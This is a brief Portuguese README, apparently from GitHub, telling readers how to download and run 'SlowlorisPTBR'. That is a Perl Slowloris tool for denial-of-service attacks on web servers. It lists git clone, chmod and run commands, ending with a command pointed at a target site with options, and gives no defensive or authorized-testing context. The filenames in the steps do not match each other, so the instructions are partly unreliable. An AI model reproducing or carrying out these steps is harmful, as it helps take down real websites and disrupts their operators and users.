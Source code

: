 COMO USAR SLOWLORISPTBR
(Download slowlorisPTBR.pl)

1)Vá até o Terminal
2)Digite: git clone https://github.com/CanalPesadeloDoSistema/SlowLorisPTBR
3)Digite: ls 
4)Digite: cd SlowLorisPTBR
5)Digite: chmod a+x SlowLorisPTBR.perl
6) ./SlowlorisPTBR.pl
7) perl slowloris.pl -dns www.site.com -options

PARA FACILITAR SUA VIDA 
ASSISTA AO VÍDEO E INSTALE SEM ERROS :




Done
